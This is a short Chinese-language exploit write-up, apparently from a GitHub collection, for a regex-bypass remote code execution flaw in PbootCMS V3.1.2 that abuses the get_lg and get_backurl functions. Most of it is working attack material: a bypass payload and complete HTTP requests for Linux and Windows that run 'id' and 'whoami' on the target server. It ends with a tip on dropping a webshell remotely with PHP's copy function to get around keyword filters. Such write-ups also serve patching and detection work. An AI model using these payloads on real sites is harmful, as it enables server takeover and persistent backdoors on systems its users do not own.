 # 

# PbootCMS V3.1.2 正则绕过 RCE 漏洞

## 漏洞描述

PbootCMS 项目路径下 /common/function.php 中存在两个函数 get_lg 和 get_backurl，可绕过正则处理，进而执行命令。

## 漏洞复现

Bypass exp：

```
?snakin=}{pboot:if((get_lg/*-*/())/**/(get_backurl/*-*/()))}{/pboot:if}&backurl=;id
```

Linux exp：

```
GET /index.php/keyword?keyword=}{pboot:if((get_lg/*aaa-*/())/**/(get_backurl/*aaa-*/()))}123321aaa{/pboot:if}&backurl=;id HTTP/1.1
Host: your-ip
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: your-ip
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lg=system; PbootSystem=8ea446nv2usihctikbjm7qg6c6
Connection: close
```

Windows exp：

```
GET /?member/login/?a=}{pboot:if((get_lg/*aaa-*/())/**/("whoami"))}{/pboot:if} HTTP/1.1
Host: your-ip
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer:your-ip
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lg=system; PbootSystem=8ea446nv2usihctikbjm7qg6c6
Connection: close
```

写 `webshell` 时用 `file_put_contents` 写入时有关键字限制：

![image-20230601112738897](images/image-20230601112738897.png)

可使用 `copy` 函数远程落地。
